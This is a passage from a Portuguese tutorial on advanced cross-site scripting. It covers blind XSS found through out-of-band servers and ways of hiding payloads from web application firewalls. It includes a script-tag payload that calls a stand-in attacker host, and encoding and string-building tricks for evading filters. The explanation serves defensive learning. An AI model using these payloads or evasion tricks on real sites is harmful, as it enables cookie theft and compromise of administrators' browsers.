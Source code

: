 ## 5. Variantes Avançadas e Técnicas de Evasão

À medida que as defesas contra XSS se tornaram mais sofisticadas, os atacantes desenvolveram técnicas avançadas para contornar filtros, *firewalls* e outras mitigações. Compreender estas variantes é crucial para construir defesas robustas.

### 5.1. Blind XSS: Atacando o Invisível

*Blind Cross-Site Scripting* é uma subcategoria de *Stored XSS* onde o ponto de injeção e o ponto de execução estão completamente desvinculados, e o atacante não tem visibilidade direta ou feedback imediato sobre a execução do seu *payload*.

O fluxo de um ataque de *Blind XSS* funciona da seguinte maneira: o atacante injeta um *payload* em um ponto de entrada, como um formulário de feedback, um campo de log de erro, ou até mesmo no cabeçalho *User-Agent* de uma requisição. Este *payload* é armazenado pela aplicação. Dias, semanas ou até meses depois, um outro usuário, tipicamente um administrador ou funcionário de suporte, acessa uma aplicação de *back-end* completamente diferente (por exemplo, um painel de visualização de logs, um sistema de CRM, ou uma ferramenta de revisão de feedback). Quando os dados armazenados são renderizados nesta aplicação de *back-end*, o *payload* é executado no navegador do administrador.

Devido à falta de um canal de feedback, a detecção de *Blind XSS* requer o uso de técnicas de *Out-of-Band Application Security Testing* (OAST). Ferramentas como *XSS Hunter* e *Burp Collaborator* são essenciais para este fim. O *payload* injetado é projetado para forçar o navegador da vítima a fazer uma requisição a um servidor externo controlado pelo atacante (o servidor OAST). Por exemplo, o *payload* pode tentar carregar um arquivo JavaScript: `<script src="https://attacker.xsshunter.com"></script>`. Se o servidor OAST receber esta requisição, a vulnerabilidade de *Blind XSS* é confirmada. Ferramentas avançadas como o *XSS Hunter* podem coletar uma riqueza de informações no momento da execução, incluindo a URI da página vulnerável, o endereço IP da vítima, o DOM completo da página, todos os *cookies* não-*HttpOnly*, e até mesmo uma captura de tela da página, fornecendo ao atacante uma visão clara do ambiente interno comprometido.

### 5.2. Ofuscação de Payloads e Bypass de WAFs

*Web Application Firewalls* (WAFs) e filtros de validação de entrada são frequentemente configurados com regras baseadas em assinaturas para detectar e bloquear padrões de XSS conhecidos, como a string `<script>` ou o atributo `onerror`. Para contornar essas defesas, os atacantes utilizam uma variedade de técnicas de ofuscação para disfarçar seus *payloads*.

As técnicas de ofuscação mais comuns incluem:

- **Codificação de Caracteres**: Utilizar diferentes esquemas de codificação para ocultar palavras-chave e caracteres maliciosos. Isso pode incluir codificação de URL (`%3cscript%3e`), codificação de entidade HTML (decimal `<` ou hexadecimal `<`), e codificação *Base64* para o conteúdo do *script*, que é então decodificado e executado no cliente usando funções como `atob()`.
- **Tags e Atributos Malformados**: Explorar a maneira como os navegadores tentam corrigir HTML sintaticamente incorreto. Um atacante pode injetar uma tag malformada que é ignorada pelo WAF, mas "corrigida" pelo navegador de uma forma que permite a execução do *script*.
- **Eventos Não Convencionais**: Em vez de usar os manipuladores de eventos mais comuns e frequentemente filtrados como `onclick` e `onerror`, os atacantes podem usar uma vasta gama de outros eventos, como `onmouseover`, `onfocus`, `onblur`, `ondrag`, entre dezenas de outros, que têm menor probabilidade de estarem na lista de negação do WAF.
- **Manipulação de Strings em JavaScript**: Construir dinamicamente o código malicioso no lado do cliente para evitar a detecção de *strings* literais. Por exemplo, em vez de `alert('XSS')`, um atacante pode usar `eval('al' + 'ert(\'XSS\')')` ou `window['a' + 'lert']('XSS')` para montar a chamada da função em tempo de execução.
